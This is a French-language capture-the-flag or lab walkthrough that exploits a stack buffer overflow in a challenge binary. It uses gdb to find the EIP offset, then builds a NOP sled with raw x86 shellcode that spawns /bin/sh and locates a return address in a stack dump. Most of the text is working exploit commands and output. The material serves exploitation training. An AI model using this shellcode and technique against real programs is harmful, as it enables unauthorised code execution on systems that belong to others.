 Detection en ligne de commande avec gdb
```
for i in `seq 362 366`; do echo $i; gdb -batch -ex='run' -args /usr/local/bin/chal $(python -c "print 'A'*$i+'BBBB'"); done; 
362

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()                  <====================== BBBB ok => 362 offset
363

Program received signal SIGSEGV, Segmentation fault.
0x42424241 in ?? ()
364

Program received signal SIGSEGV, Segmentation fault.
0x42424141 in ?? ()
365

Program received signal SIGSEGV, Segmentation fault.
0x42414141 in ?? ()
366

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```



On dispose de 512 octets. On va utiliser (512-48) NOP et une payload de 48 octets suivi d'une adresse 1234.
````
 run $(python -c 'print "\x90"*(512-48)+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x01\x02\x03\x04";')
 ````
On vérifie que EIP vaut bien 4x3x2x1
On cherche avec x/520x $esp une adresse dans les nop
"bffffd50"
On l'inverse
"\x50\xfd\xff\xbf" 

En bash:
```$ gdb -batch -ex='unset env LINES' -ex='unset env COLUMNS' -ex='b 21' -ex='run' -ex='x/300x $esp' -args  /usr/local/bin/chal $(python -c "print '\x90'*(362-45)+'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'+'BBBB'") 
No symbol table is loaded.  Use the "file" command.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
0xbffff580:	0x00000042	0xbffff614	0xbffff620	0xb7feccca
0xbffff590:	0x00000002	0xbffff614	0xbffff5b4	0x0804a014
....
0xbffff730:	0x00000000	0x7273752f	0x636f6c2f	0x622f6c61
0xbffff740:	0x632f6e69	0x006c6168	0x90909090	0x90909090
0xbffff750:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff760:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff770:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff780:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff790:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e0:	0x90909090	0x90909090	0x90909090	0x90909090  <=== Bonne cible
0xbffff7f0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff800:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff810:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff820:	0x90909090	0x90909090	0x90909090	0x90909090
```